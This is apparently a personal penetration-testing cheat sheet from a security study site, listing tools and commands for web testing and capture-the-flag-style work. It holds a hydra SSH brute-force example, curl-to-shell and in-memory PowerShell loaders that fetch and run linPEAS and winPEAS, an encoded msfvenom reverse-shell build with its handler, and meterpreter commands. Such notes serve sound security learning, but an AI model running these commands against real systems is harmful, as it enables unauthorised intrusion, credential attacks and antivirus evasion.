 ```yaml
---
layout: single
classes: #wide
title: "General Info"
sidebar:
    title: "General Info"
    nav: infosec
collection: infopages
permalink: /infosec/general/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

## General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error output  

## Tmux
`tmux a` - attaches session
`tmux -S <name>` - attaches file session or creates one of that name

## Brute-Force
ffuf  
cme - SMB brute force tool  
hydra:  
ex: ```hydra -l usr -P pass.txt ssh://www.example.com```

## Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

## Wordlists
/usr/share/wordlists/  
* /seclists

## Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks


## Linpeas & Winpeas
[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):  
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh `  
`python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')" `  

[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `

## Other
Pspy - inspect application  
`powershell -c` - allows for powershell command    
Exiftool - analyzing metadata


## Refrance links 
tbd

## Post exploit
Exiftool - analyzing meta data
look for weird configs  
linpeas.sh big

## Msfconsole
`sessions -i <session num>` - attach session   
`sessions -u <session num>` - upgrade to meterpreter

### Shells 
ex msfvenom reverse shell:  
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe`
ex msfconsole listener:  
`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run`

### Meterpreter
`channel -i <session>` - attaches
`upload <file>` - uploads file

